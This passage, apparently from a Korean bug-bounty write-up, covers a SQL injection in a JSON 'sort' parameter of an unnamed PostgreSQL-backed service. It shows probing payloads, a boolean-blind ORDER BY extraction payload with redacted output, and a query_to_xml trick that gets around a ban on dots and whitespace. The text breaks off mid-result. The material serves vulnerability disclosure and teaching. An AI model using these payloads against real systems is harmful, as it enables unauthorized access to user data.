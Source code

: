 괄호와 주석이 잘 작동하는 것 같습니다.

```
"sort":"(SELECT(CHR(100)))"  --> Normal response
"sort":"(SELECT(SUBSTR('a',1,1)))" --> Normal response
"sort":"(SELECT(VERSION()))" --> Normal response
"sort":"(SELECT/**/current_user)" --> Normal response
"sort":"(SELECT(ABCD('a',1,1)))" --> Error
```

위의 응답 결과를 통해 SQL Injection이 발생하는구나 확신했으며, 다음의 query로 DB 종류를 알아낼 수 있었습니다.

```
"sort":"(SELECT(getpgusername()))" --> Normal response
"sort":"(SELECT(a()))" --> Error
```

PostgreSQL에만 존재하는 `getpgusername`함수가 정상적으로 응답하는 것을 보아 타겟은 PostgreSQL을 사용중인 것을 알 수 있습니다.

## Exploitation

취약점을 제보하기 위해서는, 원하는 데이터를 추출할 수 있는지 증명하기 위한 PoC 코드를 작성해야 합니다. ORDER BY절에서 발생한 SQL Injection이므로 비교하는 값이 참일 때와 거짓일 때를 기준으로 정렬되어 오는 응답이 다르다는 점을 이용해 Blind SQL Injection을 수행했습니다. 다음은 current_user를 가져오기 위한 페이로드입니다. (자동화 스크립트는 뒤에 첨부)

```
"sort": "id=(1+(SELECT\\nCASE\\nWHEN\\n((SELECT\\ncurrent_user)LIKE'{}%')\\nTHEN\\n1\\nELSE\\n0\\nEND))"
```

**스크립트 실행결과:**

```
extracted value: █
extracted value: ██
extracted value: ███
...
extracted value: ██████
```

이제 실제 유저 테이블에 접근하여 정보를 추출할 수 있는 PoC를 작성해야 합니다. (이 부분은 개인정보와 관련된 부분이기에 vendor와 충분히 소통하였으며 vendor의 요청 및 허락이 있었습니다)

PostgreSQL또한 MySQL과 마찬가지로 `information_schema` DB에 모든 스키마 정보가 저장되어 있기에 해당 DB에 접근하기 위해서는 `.`사용이 불가피합니다. (`information_schema.columns` 등)

여기서 한가지 문제점은 `sort`파라미터로 `.` 문자와 whitespace를 사용할 수 없다는 애로사항이 있었는데요. Lord of SQL Injection 워게임을 통해 단련된 저에게 이것은 더 이상 애로사항이 아니었습니다. (Shout out Rubiya)

PostgreSQL에는 `query_to_xml`이라는 좋은 기능을 제공합니다. 첫번째 인자로 query를 전달하면 해당 query를 실행한 결과를 xml로 반환해주는 함수입니다.

**Query:**

```
SELECT query_to_xml('SELECT VERSION()',true,true,'');
```

**결과:**
